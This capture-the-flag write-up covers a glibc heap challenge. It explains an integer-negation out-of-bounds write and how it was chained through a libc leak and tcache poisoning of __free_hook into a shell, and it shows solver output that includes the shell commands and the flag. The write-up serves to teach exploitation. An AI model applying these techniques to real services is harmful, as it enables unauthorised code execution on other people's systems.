 # Day 11 - Heap Playground - pwn, heap

> Just another heap challenge

Service: nc 3.93.128.89 1215

Download: [a0a20bae50c95c9b4d2062d166134a42a878ce3d226aa5af07630188b5745c15-heap_playground.tar.gz](https://advent2019.s3.amazonaws.com/a0a20bae50c95c9b4d2062d166134a42a878ce3d226aa5af07630188b5745c15-heap_playground.tar.gz)

Mirror: [heap_playground](./static/heap_playground)

## Analysis

As the name, category, and description suggest this is a heap challenge. As with most heap challenges, we have a binary with a menu which lets us allocate, free, print, or edit a chunk of data. Loading the binary up in Ghidra, I went ahead and looked at each of these to try and find a bug which would let us read or write somewhere outside the bounds of an allocated buffer:

![main function](./images/day11_main.png)

The `alloc_chunk` function (below) looked pretty standard. We can see that a chunk is allocated with a 16 byte header structure, and some data is written to it. Additionally, the chunks look like they're being stored in a linked list with a "head" chunk somewhere in the data section. But as far as bugs go there isn't anything out of place in this function.

![alloc chunk function](./images/day11_alloc_chunk.png)

Similarly, for free chunk, we see that the program walks the linked list, but as far as I can tell it correctly dereferences, checks the edge cases for the "head" chunk, and eventually frees the data.

![free function](./images/day11_free_chunk.png)

Next up is the print function. This _does_ do a puts() so assuming that we can write something useful then we will be able to get an out-of-bounds read. But for now, since the buffers seem to be NULL-terminated correctly we're stuck.

![print function](./images/day11_print_chunk.png)

Finally, we get to the edit function. This one is a bit interesting. It takes an index, negates it if its less than zero, reduces it modulo the chunk size, and then writes one character at the specified offset. Here's our bug.

![edit function](./images/day11_edit_chunk.png)

It's worth mentioning what the linked list data structure looks like on the heap. From my disassembly, I found that it was formatted as:

```
struct {
	int chunk_id; // 4 bytes
	int chunk_size; // 4 bytes
	void *next_chunk; // 8 bytes
	uchar chunk_data[]; // variable length
}
```
As a final note in this section, I'll also mention, that as usual I setup a docker container to run the binary locally. The libc provided with this challenge matched that of Ubuntu 18.04, so I used that as my base OS. The Dockerfile I used with the commands to build and run it are shown below. The reason I'm using the "privileged" options is that I often like to attach a debugger (gdb) to the process while I'm developing an exploit to observe memory and look at how it works live.

```
# docker build -t advent2019-1211 .
# docker run -it --cap-add=ALL -p 127.0.0.1:1211:1211 advent2019-1211
FROM ubuntu:18.04

RUN apt update && apt install -y gdb socat net-tools
RUN useradd -u 999 -m ctf
ADD heap_playground /home/ctf
RUN echo 'theflag' > /home/ctf/flag
WORKDIR /home/ctf
CMD socat tcp-l:1211,fork exec:/home/ctf/heap_playground
```

## Out of Bounds Write

Looking closely at the edit function again, we can see that the program is doing this arithmetic on a 4-byte value:

```c
void *chunk; // actually a structure
char char_value; // user provided
int char_index; // user provided
int new_char_index;
if (char_index < 0)
	new_char_index = -char_index;
memset(&chunk->data[new_char_index % chunk->size], char_value, 1);
```

This negation property immediately made me think of the edge cases around arithmetic with 32-bit numbers. More specifically, negation is typically done as two operations - a bit flip (~num) followed by an addition of 1. So for something like -1 (0xffffffff) you have `(~0xffffffff = 0) + 1 = 1`. However, there is one number (0x80000000) for which this operation doesn't actually negate the value. That's because inverting the bits and adding 1 will give you the same value in return, and this is in fact still a negative value.

With this in mind and the fact that we can allocate chunks of size 1 to 0x400, I checked each size in the operation (0x80000000 % size) to see which negative offset would work best for performing an out of bound write. The size 17 (or 0x11) seems to work best, as that modular reduction gives us -9 which, when indexed off of the `chunk_data` array in a chunk will overlap exactly with the top byte of the `chunk_size`. If we can then write a large value to `chunk_size` then we'll effectively be able to write to any byte after our allocation on the heap, giving us almost complete control for a heap exploit. So to summarize, we now have the following:

* allocate new chunk (chunk\_id of 1) of size 17
* edit byte offset 0x80000000 in that chunk to have value a large byte value
* use chunk 1 to write anywhere on the heap

## Code Execution

At this point, to get code execution we still need to jump to an address we control reliably. One method to do this is to overwrite the free_hook pointer in libc. By default, this pointer is NULL, but if it does contain any address, then the program will attempt to jump to that address instead of calling the standard libc free() function.

To find the address, we can allocate a large chunk of memory (~0x400 bytes should do) and free it so that its freed contents will contain some libc addresses. Using these we can calculate the base address of libc in memory (since its likely randomized), and then calculate the address of the free_hook and system function call.

To actually write to an arbitrary address I used the [tcache poisioning](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/tcache_poisoning.c) technique for glibc 2.26. This technique takes advantage of the way the "tcache" improves performance by writing the next available chunk of the same size to the previously freed chunk of the same size. The full POC and description can be seen in the link above. For our purposes, I chose to create a chunk of size 0xf0, free it, and then use my out of bounds write to write the address of "free_hook" minus 0x10 (for the structure header in this challenge). Then, when two new blocks of the same size are allocated, the second will allocate exactly where we need it near the "free_hook". Once its allocated we get to write some contents, so we'll write the address of system() in libc.

At this point, all we'll have is the ability to run a command assuming we can put it at the beginning of a chunk that we're freeing. However, because the heap structures we're creating are structures and not just data buffers, the "chunk_id" is at the beginning of the block to be freed, not our data.

To solve this, I decided to create a _bunch_ of allocations and then free block with id 0x6873. This value represented as a string is "sh" which corresponds to the system shell. Unfortunately, allocating this many blocks takes a long time. On my local setup with [my solution script](./solutions/day11_solver.py) the whole process takes just over a minute, but testing against the real server takes about an hour. At this point I had a solution and just had to wait. Had I wanted to speed things up, I could have done a little more arithmetic to lookup the `glob_id` variable in the process' memory and alter it, but with a solution in hand it ended up just being easier to wait. The [full script](./solutions/day11_solver.py) output is given below.

```
$ ./solutions/day11_solver.py 
Creating 0x6873 allocations...
Creating 0x0064, time remaining 3047.7 seconds
Creating 0x00c8, time remaining 3059.1 seconds
Creating 0x012c, time remaining 3089.6 seconds
Creating 0x0190, time remaining 3085.0 seconds
Creating 0x01f4, time remaining 3081.8 seconds

<snip>


Creating 0x66bc, time remaining 50.3 seconds
Creating 0x6720, time remaining 38.8 seconds
Creating 0x6784, time remaining 27.4 seconds
Creating 0x67e8, time remaining 15.9 seconds
Creating 0x684c, time remaining 4.5 seconds
b'Chunk 3:\naaaaaaaaaaaaaaaa'
b'Chunk 3:\naaaaaaaaaaaaaaaaAAAA'
b'Chunk 3:\naaaaaaaaaaaaaaaaAAAAAAAA!\x04'
b'Chunk 3:\naaaaaaaaaaaaaaaaAAAAAAAAAAAA'
b'Chunk 3:\naaaaaaaaaaaaaaaaAAAAAAAAAAAAAAAA\xa0|s\xd7P\x7f'
b'Chunk 3:\naaaaaaaaaaaaaaaaAAAAAAAAAAAAAAAAAAAAP\x7f'
b'Chunk 3:\naaaaaaaaaaaaaaaaAAAAAAAAAAAAAAAAAAAAAAAA\xa0|s\xd7P\x7f'
libc_addr 0x7f50d7737ca0
libc_base 0x7f50d734c000
__libc_system = 0x7f50d739b440
__free_hook =  0x7f50d77398e8
b'Created chunk 26746\n1. Create chunk\n2. Delete chunk\n3. Print chunk\n4. Edit chunk\n5. Exit\nChoice: '
>> b'2\n'
b'ID of chunk: '
>> b'25705\n'
b'uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)\nChunk deleted!\n1. Create chunk\n2. Delete chunk\n3. Print chunk\n4. Edit chunk\n5. Exit\nChoice: '
>> b'2\n'
b'ID of chunk: '
>> b'26739\n'
>> b'id\n'
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)

>> b'ls -al\n'
total 32
drwxr-xr-x 1 root root  4096 Dec 11 11:55 .
drwxr-xr-x 1 root root  4096 Dec 11 11:55 ..
-rw-rw-r-- 1 root root    40 Dec 11 11:55 flag
-rwxrwxr-x 1 root root 17248 Dec 11 11:55 heap_playground

>> b'cat flag\n'
AOTW{d0_y0u_kn0w_th3_l3bl4nc14n_p4r4d0X}
>> b'ps aux\n'
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.0   4628   852 ?        Ss   Dec11   0:00 /bin/sh -c /usr/sbin/inetd -d
root         6  0.0  0.0  31872  3184 ?        S    Dec11   0:18 /usr/sbin/inetd -d
nobody   17302  0.0  0.0   8804   932 ?        Ss   17:23   0:00 /usr/bin/timeout 3600 /opt/heap_playground/heap_playground
nobody   17303  0.2  0.0   5308  2324 ?        S    17:23   0:07 /opt/heap_playground/heap_playground
nobody   17306  0.0  0.0   4628   864 ?        S    18:14   0:00 sh -c sh
nobody   17307  0.0  0.0   4628   880 ?        S    18:14   0:00 sh
nobody   17311  0.0  0.0  34400  2996 ?        R    18:14   0:00 ps aux
```

As the flag suggests, the negation issue is known as the "Leblancian Paradox".

